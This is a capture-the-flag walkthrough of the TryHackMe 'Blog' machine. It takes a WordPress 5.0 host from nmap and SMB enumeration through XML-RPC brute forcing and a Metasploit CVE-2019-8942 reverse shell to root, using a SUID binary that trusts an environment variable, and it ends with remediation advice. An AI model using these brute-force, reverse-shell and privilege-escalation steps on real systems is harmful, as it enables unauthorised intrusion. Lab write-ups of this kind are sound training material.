






# THM-Blog-Walkthrough

##🛡️ TryHackMe: Blog Machine Writeup
Date: May 11, 2026  
Author:** [zeyad ashraf elkhradly]  
Difficulty: Medium  
Category: Web / Linux / Privilege Escalation

---

## 📋 Executive Summary

This report documents the end-to-end security assessment and exploitation of the **Blog** machine. The assessment followed a standard penetration testing methodology: Reconnaissance, Enumeration, Exploitation, and Privilege Escalation. The attack vector involved bypassing SMB guest restrictions, brute-forcing WordPress credentials, and exploiting a logic flaw in a custom SUID binary to achieve full root access.

---

## 🛠️ Phase 1: Reconnaissance & Enumeration

## 1.1 Network Scanning

The initial phase started with an intensive **Nmap** scan to identify open ports and services.

```bash
nmap -sV -sC  -oN nmap_results.txt 10.10.x.x
Port 80 (HTTP): Hosting a legacy WordPress 5.0 instance.

Port 139/445 (SMB): Anonymous login allowed, exposing shared resources.

```


---

### 1.2 SMB Enumeration (Surface Analysis)
Using `smbclient` and `enum4linux`, I performed a deep scan of the SMB shares.
* **Findings:** The `BillySMB` share was accessible as a guest.
* **Outcome:** After thorough manual inspection of the available files and metadata, no direct vulnerabilities or sensitive credentials were discovered.
* **Strategic Decision:** This path was documented as a "Dead End" for direct exploitation, leading the assessment to shift focus toward the Web Application layer (WordPress) for initial access.

---

## 🚀 Phase 2: Vulnerability Analysis & Initial Access
2.1 XML-RPC Discovery
I confirmed that xmlrpc.php was enabled and active. This was a critical vulnerability, as it allowed for optimized brute-force attacks via system.multicall, bypassing traditional rate-limiting.

---

## 2.2 Brute-Forcing Credentials

Leveraging Burp Suite Intruder, I targeted the user kwheel based on enumerated data.

Credential Found: kwheel : cutiepie1

Evidence: A successful 302 Redirect response was observed, confirming login.



---

## 2.3 Exploitation (Remote Code Execution)

After gaining administrative access to the WordPress dashboard, I utilized the Metasploit module exploit/multi/http/wp_crop_rce (CVE-2019-8942). This vulnerability in image processing allowed me to execute a reverse shell.

Bash
msf6 > exploit(wp_crop_rce) > set LHOST [Your_IP]
msf6 > exploit(wp_crop_rce) > exploit
[*] Meterpreter session 1 opened!



---

## 🛠️ Phase 3: Post-Exploitation & Stability
 ## 3.1 Shell Stabilization
 
To ensure a fully functional and interactive working environment, I upgraded the reverse shell using Python's PTY module:

Bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

After successful exploitation, a Meterpreter session was established. The shell was then upgraded to a fully interactive TTY using Python.



---

### 3.2 Confronting the Rabbit Hole

Upon exploring `/home/bjoel/`, a deceptive `user.txt` was found, urging further persistence.



----


## 👑 Phase 4: Privilege Escalation (The Path to Root)

## 4.1 SUID Binary Discovery

I searched for misconfigured SUID binaries that could lead to privilege escalation.

Bash

find / -perm -u=s -type f 2>/dev/null
Result: Discovered an unusual custom binary at /usr/sbin/checker.

----

## 4.2 Binary Analysis & Logic Flaw Exploitation

Using the strings utility, I performed a static analysis of the /usr/sbin/checker binary. The analysis revealed a call to getenv("admin").

The Exploit:
By manipulating the environment variable, I was able to satisfy the program's logic and trigger the setuid(0) call.

Bash
export admin=true
/usr/sbin/checker
Result: Instant transition to the root user.



----
## 🎯 Conclusion & Remediation
WordPress Security: Update to the latest version to patch CVE-2019-8942 and disable XML-RPC.

SMB Hardening: Disable anonymous/guest access to internal shares.

Binary Permissions: Regularly audit SUID/SGID bits on custom binaries and ensure they follow the principle of least privilege.
